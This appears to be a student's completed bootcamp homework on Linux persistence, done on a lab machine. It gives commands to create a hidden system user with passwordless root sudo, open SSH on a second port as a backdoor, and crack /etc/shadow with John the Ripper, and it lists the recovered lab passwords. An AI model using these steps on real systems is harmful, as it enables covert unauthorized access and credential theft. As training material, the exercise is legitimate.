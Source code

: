 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

        useradd --no-create-home sysd
    

2. Give your secret user a password: 

        passwd sysd

    

3. Give your secret user a system UID < 1000:

        usermod -u 997 sysd


    

4. Give your secret user the same GID:

        #Makes primary group sudo
        usermod -g 27 sysd
        #Deletes old auto generated sysd user group 
        delgroup sysd
        #adds new GID for sysd
        addgroup -gid 997 sysd
        #adds sysd to gid
        usermod -g 997 sysd
   

5. Give your secret user full `sudo` access without the need for a password:

        #add sysd to sudoers file with NOPASSWD: ALL parameter
        
        sysd   ALL=(ALL:ALL) NOPASSWD: ALL
   

6. Test that `sudo` access works without your password:

        sudo -l
        Matching Defaults entries for sysd
        on scavenger-hunt:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

        User sysd may run the following
        commands on scavenger-hunt:
        (ALL : ALL) ALL
        (ALL : ALL) NOPASSWD: ALL
    
        

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

        # The strategy used for options in the default sshd_config shipped with
        # OpenSSH is to specify options with their default value where
        # possible, but leave them commented.  Uncommented options override the
        # default value.

        Port 22
        Port 2222
        #AddressFamily any
        #ListenAddress 0.0.0.0
        #ListenAddress ::

    

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:

        systemctl restart sshd.service
    

2. Exit the `root` account:

            exit

3. SSH to the target machine using your `sysd` account and port `2222`:

        ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:

        $ sudo su

        You found flag_7:$1$zmr05X2t$QfOdeJVDpph5pBPpVL6oy0

        root@scavenger-hunt:/#

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

        ssh sysd@192.168.6.105 -p 2222

        

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

        sudo su
        john /etc/shadow
        freedom          (babbage)
        passw0rd         (sysadmin)
        trustno1         (mitnik)
        lakers           (turing)
        dragon           (lovelace)
        computer         (stallman)
        Goodluck!        (student)
        password         (sysd)

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

